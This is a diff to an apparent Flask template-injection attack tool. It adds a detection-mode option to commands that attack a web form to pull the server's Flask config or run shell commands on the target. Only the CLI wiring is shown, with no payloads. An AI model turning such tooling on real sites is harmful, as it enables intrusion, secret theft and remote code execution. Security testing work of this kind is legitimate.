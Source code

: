 ```diff
 LOGGING_FORMAT = "%(levelname)s:[%(name)s] | %(message)s"
 
@@ -118,24 +121,28 @@
 @main.command()
 @click.option("--url", "-u", help="form所在的URL")
 @click.option("--action", "-a", default=None, help="form的action，默认为当前路径")
 @click.option("--method", "-m", default="POST", help="form的提交方式，默认为POST")
 @click.option("--inputs", "-i", help="form的参数，以逗号分隔")
 @click.option("--interval", default=0.0, help="每次请求的间隔")
 @click.option(
+    "--detect-mode", default=DETECT_MODE_ACCURATE, help="分析模式，可为accurate或fast"
+)
+@click.option(
     "--user-agent", default=DEFAULT_USER_AGENT, help="请求时使用的User Agent"
 )
 @click.option("--header", default=[], multiple=True, help="请求时使用的Headers")
 @click.option("--cookies", default="", help="请求时使用的Cookie")
 def get_config(
     url: str,
     action: str,
     method: str,
     inputs: str,
     interval: float,
+    detect_mode: str,
     user_agent: str,
     header: tuple,
     cookies: str,
 ):
     """
     攻击指定的表单，并获得目标服务器的flask config
     """
@@ -151,15 +158,17 @@
     requester = Requester(
         interval=interval,
         user_agent=user_agent,
         headers=parse_headers_cookies(
             headers_list=list(header), cookies=cookies
         ),
     )
-    cracker = FormCracker(url=url, form=form, requester=requester)
+    cracker = FormCracker(
+        url=url, form=form, requester=requester, detect_mode=detect_mode
+    )
     result = cracker.crack()
     if result is None:
         logger.warning("Test form failed...")
         return
     full_payload_gen, field = result
     payload = full_payload_gen.generate(CONFIG)
     resp = cracker.submit({field: payload})
@@ -174,25 +183,29 @@
 @click.option("--method", "-m", default="POST", help="form的提交方式，默认为POST")
 @click.option("--inputs", "-i", help="form的参数，以逗号分隔")
 @click.option(
     "--exec-cmd", "-e", default="", help="成功后执行的shell指令，不填则成功后进入交互模式"
 )
 @click.option("--interval", default=0.0, help="每次请求的间隔")
 @click.option(
+    "--detect-mode", default=DETECT_MODE_ACCURATE, help="分析模式，可为accurate或fast"
+)
+@click.option(
     "--user-agent", default=DEFAULT_USER_AGENT, help="请求时使用的User Agent"
 )
```